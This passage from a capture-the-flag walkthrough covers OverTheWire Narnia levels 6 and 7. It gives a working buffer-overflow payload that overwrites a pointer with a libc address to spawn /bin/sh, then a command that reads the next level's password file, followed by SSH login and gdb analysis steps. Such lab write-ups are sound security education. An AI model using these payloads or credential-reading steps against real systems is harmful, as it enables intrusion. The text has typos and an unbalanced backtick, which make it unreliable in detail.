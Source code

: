 <img src="./img/Screenshot 2024-10-13 114830.png"></img>
Run with an additional command (`ls`) appended to the second argument, further testing the ability to execute commands through the buffer overflow.
```bash
run `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBB/bin/sh"
```
Execute with `/bin/sh` as the argument, attempting to spawn a shell via the buffer overflow exploit.

we got a shell in narnia6
This indicates that the exploit was successful, and you have gained a shell access to the `narnia6` environment.
execute the cmd outside the gdb editor

Exit GDB and run the following command in the terminal:
```bash
./narnia6 `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBB/bin/sh"
```
we got a shell
```bash
cat /etc/narnia_pass/nanria7
```
Move to next level 7

```bash
sshpass -p `cat narnia7` ssh narnia7@narnia.overthewire.labs.org -p 2226
```
Connect to the Narnia server using SSH. The password for `narnia7` is retrieved from the file containing the password.
```bash
cd /narnia
```

Change the directory to `/narnia`, where the relevant challenge files are located.
```bash
cat narnia7.c
```
View the source code of the `narnia7` executable to understand its logic and identify any vulnerabilities.
```bash
gdb ./narnia7
```
Start the GNU Debugger (GDB) with the `narnia7` binary to analyze its behavior and locate vulnerabilities.
```bash
disassemble vuln
```
Disassemble the `vuln` function to see its assembly code, helping identify where the buffer overflow may occur.
```bash
break *vuln+151
```